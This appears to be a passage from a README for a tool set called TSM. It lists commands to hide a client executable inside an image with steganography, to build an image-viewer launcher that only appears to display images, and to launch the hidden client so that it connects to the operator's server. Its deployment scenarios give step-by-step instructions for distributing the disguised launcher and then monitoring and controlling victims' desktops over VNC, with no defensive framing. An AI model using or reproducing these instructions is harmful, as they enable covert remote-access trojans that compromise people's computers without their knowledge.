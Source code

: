 #### Extracting Client from Image
```bash
python TSM_ImageSteganography.py extract <stego_image> <output_client>
```

Example:
```bash
python TSM_ImageSteganography.py extract hidden_photo.png extracted_client.py
```

#### Verifying Steganographic Image
```bash
python TSM_ImageSteganography.py verify <stego_image>
```

### 4. Hidden Deployment

#### Creating Image Viewer Launcher
```bash
python TSM_HiddenLauncher.py --create-viewer <stego_image> <viewer_output>
```

#### Launching Hidden Client
```bash
python TSM_HiddenLauncher.py --launch <stego_image> [--server host:port]
```

### 5. VNC Integration

#### Starting VNC Server
```bash
python TSM_VNCIntegration.py server [host] [port]
```

#### Starting VNC Client
```bash
python TSM_VNCIntegration.py client [host] [port]
```

## Advanced Deployment Scenarios

### Scenario 1: Hidden Client Deployment
1. Create a normal-looking image
2. Embed the client executable in the image using steganography
3. Create an image viewer launcher that appears to just view images
4. Distribute the image and launcher
5. When the image is "viewed", the hidden client connects to your server

### Scenario 2: Remote Desktop Access
1. Start the TSM server
2. Start the VNC server
3. Deploy hidden client with VNC enabled
4. Monitor and control remote desktop through the VNC connection

